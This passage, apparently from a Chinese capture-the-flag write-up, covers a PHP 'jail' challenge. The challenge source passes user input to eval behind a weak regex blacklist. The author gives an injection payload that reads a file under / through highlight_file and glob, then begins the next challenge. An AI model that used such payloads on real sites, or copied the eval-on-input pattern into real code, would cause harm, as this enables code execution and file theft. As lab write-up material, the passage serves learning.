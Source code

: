 ```php
}

// 定义一个函数，用于检查输入是否包含某些特定字符或关键字
function Like_Jail($var) {
    // 使用正则表达式检查输入是否包含特定字符或关键字
    if (preg_match('/(`|\$|a|c|s|require|include)/i', $var)) {
        // 如果包含，返回false
        return false;
    }
    // 如果不包含，返回true
    return true;
}

// 调用Like_Jail函数检查$Jail参数
if (Like_Jail($Jail)) {
    // 如果检查通过，使用eval执行$Jail中的代码
    eval($Jail);
    // 输出提示信息
    echo "Yes! you escaped from the jail! LOL!";
} else {
    // 如果检查未通过，输出提示信息
    echo "You will Jail in your life!";
}

// 输出换行符
echo "\n";

// 在HTML解析后再输出PHP源代码
highlight_file(__FILE__);

?>
```

首先查看，需要我们传参，根据前面的知识，实际上应该为?Jail[by.Happy=

之后使用highlight_file和glob函数来联合查询

```
highlight_file配合glob, glob 通常用于匹配符合特定规则的文件路径名, glob("/f*") 会搜索文件系统中所有以 /f 开头的文件或目录。然后，通过 [0] 索引选择第一个匹配的结果
```

```Plain
?Jail[by.Happy=highlight_file(glob("/f*")[0]);
```

（这里应该主要考察的还是一种新的文件检索方法吧）

![](https://s2.loli.net/2024/11/17/YGIhizspKe42cTA.png)

#### 复读机

首先通过粗表大致试出屏蔽词
